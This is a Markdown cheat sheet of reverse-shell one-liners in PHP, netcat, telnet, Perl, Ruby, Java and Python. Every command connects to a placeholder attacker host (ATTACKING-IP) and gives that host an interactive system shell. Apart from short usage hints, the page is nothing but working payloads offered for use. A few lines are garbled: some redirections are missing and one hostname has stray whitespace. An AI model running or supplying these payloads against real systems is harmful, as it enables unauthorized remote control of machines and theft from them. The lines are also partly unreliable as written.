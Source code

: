 # cheat sheet reverse shells

## php reverse shells

`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)

## netcat reverse shells
`nc -e /bin/sh ATTACKING-IP 80`

or
`/bin/sh | nc ATTACKING-IP 80`

or
`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`

## telnet reverse shells
`rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`

or
`telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`

## perl reverse shells
```
perl -e 'use Socket;$i="ATTACKING-			IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

or windows
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

or windows
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java reverse shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
